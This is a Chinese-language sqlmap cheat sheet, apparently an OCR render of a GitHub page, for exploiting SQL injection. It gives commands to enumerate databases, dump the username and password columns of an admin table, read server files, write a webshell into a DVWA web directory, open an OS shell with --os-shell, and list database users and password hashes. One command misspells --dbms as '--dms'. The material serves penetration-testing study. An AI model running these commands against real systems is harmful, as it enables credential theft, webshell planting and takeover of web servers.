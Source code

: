 sqlmap -r XX.txt   --dbs

查询有哪些数据库

sqlmap -r XX.txt -D test --tables

查询test数据库中有哪些表

sqlmap -r XX.txt  -D test -T admin --columns

查询test数据库中admin表有哪些字段

sqlmap -r XX.txt   -D test -T admin -C "username,password" --dump

dump出字段username与password中的数据

其他命令参考下面

**从数据库中搜索字段**

sqlmap -r "c:\tools\request.txt" --dbms mysql -D dedecms --search -C admin,password

在dedecms数据库中搜索字段admin或者password。

**读取与写入文件**

首先找需要网站的物理路径，其次需要有可写或可读权限。

--file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）

--file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）

--file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径

\#示例：

sqlmap -r "c:\request.txt" -p id --dbms mysql --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

使用shell命令：

sqlmap -r "c:\tools\request.txt" -p id --dms mysql --os-shell

接下来指定网站可写目录：

“E:\php\htdocs\dvwa”

\#注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp_dirtree函数）

### **sqlmap详细命令：**

- --is-dba 当前用户权限（是否为root权限）

- --dbs 所有数据库

- --current-db 网站当前数据库

- --users 所有数据库用户

- --current-user 当前数据库用户

- --random-agent 构造随机user-agent

- --passwords 数据库密码
